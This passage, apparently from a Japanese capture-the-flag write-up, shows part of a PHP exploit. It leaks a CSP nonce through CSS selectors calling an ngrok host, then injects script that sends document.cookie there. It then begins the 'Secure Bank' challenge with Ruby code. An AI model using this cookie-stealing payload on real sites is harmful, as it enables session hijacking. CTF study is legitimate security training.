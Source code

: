 ```php
				echo("[nonce^='" . $x . "'] { background: url(http://cf07fd07.ap.ngrok.io/?nonce=" . $x . ") }" . PHP_EOL);
			}
		}
	}
	else if (array_key_exists("go", $_GET)) {
		$nonce = file_get_contents("nonce.txt");
		if (strlen($nonce) < 32) {
			header("Location: http://35.187.214.138:10023/?q=%3Clink%20rel%3D%22stylesheet%22%20href%3D%22http%3A%2F%2Fcf07fd07.ap.ngrok.io%2F%3Fcss%3D" . microtime(true) . "%22%3E");
		}
		else {
			header("Location: http://35.187.214.138:10023/?q=%3Cscript%20nonce%3D%22" . $nonce . "%22%3Efetch(%22http%3A%2F%2Fcf07fd07.ap.ngrok.io%2F%3Fsave%3D%22%20%2B%20encodeURIComponent(document.cookie))%3C%2Fscript%3E");
		}
	}
	else if (array_key_exists("start", $_GET)) {
		file_put_contents("nonce.txt", "", LOCK_EX);
		file_put_contents("flag.txt", "", LOCK_EX);
?>
<html>
<body>
<script>
	setInterval(() => {
		const iframe = document.createElement("iframe");
		iframe.src = `?go=${(new Date).getTime()}`;
		document.body.appendChild(iframe);
	}, 256);
</script>
</body>
</html>
<?php
	}
	else {
		echo("E R R O R !");
	}
?>
```

# Secure Bank (497pts)

rubyで書かれたアプリケーションで、コインの送受信ができます。
たくさんのコインを集めれば、FLAGが入手できるようです。

```ruby
  get '/api/flag' do
    return err(401, 'login first') unless user = session[:user]

    hashed_user = STRETCH.times.inject(user){|s| Digest::SHA1.hexdigest(s)}

    res = DB.query 'SELECT balance FROM account WHERE user = ?', hashed_user
    row = res.next
    balance = row && row[0]
    res.close

    return err(401, 'login first') unless balance
    return err(403, 'earn more coins!!!') unless balance >= 10_000_000_000

    json({flag: IO.binread('data/flag.txt')})
  end
```
